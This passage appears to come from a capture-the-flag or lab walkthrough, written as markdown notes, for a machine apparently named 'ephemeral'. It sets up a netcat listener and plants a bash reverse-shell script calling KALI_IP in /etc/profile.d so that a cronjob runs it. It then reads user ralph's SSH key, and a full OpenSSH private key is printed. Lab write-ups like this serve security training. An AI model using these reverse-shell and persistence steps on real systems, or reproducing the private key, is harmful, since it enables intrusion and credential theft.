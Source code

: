 ```bash
/etc/profile.d/vte.csh
/etc/profile.d/apps-bin-path.sh
/etc/profile.d/vte-2.91.sh
/etc/profile.d/xdg_dirs_desktop_session.sh
/etc/profile.d/im-config_wayland.sh
/etc/profile.d/bash_completion.sh
...
```

**On your KALI machine use netcat to accept [[_MOCS/Reverse Shells]]**

```bash
└─$ nc -nlvp 9999
listening on [any] 9999 ...
```

**Create another [[_MOCS/Reverse Shells]] script in** `/etc/profile.d` **folder and wait for the cronjob to work (replace KALI_IP)**

```bash
#!/bin/bash
bash -i >& /dev/tcp/KALI_IP/9999 0>&1
```

**Once the cronjob runs and you get your ralph [[_MOCS/Reverse Shells]], grab the ssh key:**

```bash
ralph@ephemeral:~$ cat /home/ralph/.ssh/id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```